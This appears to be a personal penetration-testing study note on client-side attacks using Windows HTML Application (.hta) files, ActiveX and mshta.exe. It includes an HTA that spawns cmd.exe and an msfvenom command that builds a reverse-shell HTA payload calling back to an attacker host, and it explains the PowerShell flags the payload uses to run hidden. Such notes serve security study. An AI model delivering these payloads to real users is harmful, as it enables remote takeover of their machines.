 
# Client-Side-Attacks-HTML-Applications

## Leveraging HTML Applications
[HTML Applications](https://docs.microsoft.com/en-us/previous-versions//ms536496(v=vs.85)?redirectedfrom=MSDN), with file extension .hta can be excuted on a Windows Client with the `mshta.exe`. This is to allow Internet Explore to arbitrarily execute applications within itself rather than downloading and manual executing a remote executable. An attacker can run that within the context of the user to avoid security restrictions. [ActiveX](https://en.wikipedia.org/wiki/ActiveX) is deprecated software that found on legacy systems was controversial and [historically insecure](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=ActiveX) comparatively to other technologies, thus low hanging RCEs. Whereas [Edge](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=Edge) still vulnerable just less insecure also actively researched due to modern widespread default Windows Browser. HTML application are HTML with [[Useful_JavaScript]] or [[Visual-Basic]], HTML application are excuted outseide the browser and can be used to execute legacy and dangerous features blocked by the Browser.

## ActiveX

ActiveXObjects can provide access to underlying OS commands, using Windows Script Host functionality or WScript to access the Windows Script Host Shell object. This can  be

```html

<html>
<head>

<script>

  var c= 'cmd.exe'
  new ActiveXObject('WScript.Shell').Run(c);
  
</script>

</head>
<body>

<script>
  
  self.close(); // Close addition window behind command prompt
    
</script>

	
</body>
</html>
```

Users that broswer to this page to access the file, IE pops: `Open, Save, Save As`, selecting `Open` will prompt a `Allow || Don't Allow` options to default enabled sandbox called `Protected Mode` *"A website wants to open web content using this program on your Computer"* stating that Name: Microsoft (R) HTML Application host, Publisher: Microsoft Windows. `Allow` will permit execution. Using MSFvenom we can turn the script above into an actual attack with reverse_shell.hta. 
```bash
sudo msfvenom -p windows/shell_reverse_tcp LHOST=$IP LPORT=$PORT -f hta-psh -o /var/www/html/reverse_shell.hta
```

This payload adds powershell commands to  `-NoProfile`, `WindowStyle hidden` and `-EncodedCommand`. The reason behind the `EncodedCommand` existing in Powershell is to not have to deal with escape characters, maybe you want automate a script in the background with `WindowStyle hidden`like run patching or AD policy updates and `-NoProfile` becuase maybe you just want to do some cli maths and don't want or need to authenicate yourself to do maths. All of these properties of powershell can be used, like many other for nefarious reasons.


## MSHTML.dll 

MSHTML.dll one of many [[Dynamic-Link-Libraries]], which is specifically responsible as the Browser Engine, used regardless of IE being on the machine. From [LesFerch's Amazing Answer on Windows Forums](https://answers.microsoft.com/en-us/microsoftedge/forum/all/will-mshtaexe-default-to-edge-when-opening-an-hta/e6b278e3-e7d4-48a4-aff9-20e317e25a89):

*"Contrary to popular belief, Internet Explorer is still installed in Windows 11 and will remain in Windows 10. The only change is that in Windows 11 (and Windows 10 sometime after June 15, 2022) IE cannot be easily launched by the end-user. That is, attempting to directly run **iexplore.exe** will run **Edge** instead."*

IE can still be run via scripts using_ **_IE COM automation_**_. For example (LaunchIE.vbs):_
```vbscript
Set oIE = CreateObject("InternetExplorer.Application")

oIE.Visible = True

oIE.Navigate "about:blank" 'put your URL of choice here"
```

*"Code that uses **IE COM automation** will open IE and work as usual. Note that, for Windows 11, it must be build **22000.348** or higher (IE COM automation was broken in Windows 11 prior to the Nov 2021 update). Using Windows 11 (or Windows 10 after IE is "disabled"), any link in an **HTA**, using code such as **href** or **window.open,** will open in **Internet Explorer**. Using a computer, where Internet Explorer has been _completely removed_ via **Control Panel** **Add/Remove Features**, any link in an **HTA**, using code such as **href** or **window.open,** will not work. The **href** will do nothing and the **window.open** will generate an error. Therefore, you should NOT remove IE from Windows 10 or Windows 11. Web pages that are opened via an **iframe** in an **HTA** will continue to work in all cases. Unfortunately, many external web sites don't allow their content to be loaded in an iframe."*

## References

[ActiveX Wiki](https://en.wikipedia.org/wiki/ActiveX) 
[LesFerch's Amazing Answer on Windows Forums](https://answers.microsoft.com/en-us/microsoftedge/forum/all/will-mshtaexe-default-to-edge-when-opening-an-hta/e6b278e3-e7d4-48a4-aff9-20e317e25a89)
[CVE ActiveX](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=ActiveX)
[CVE Edge](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=Edge) 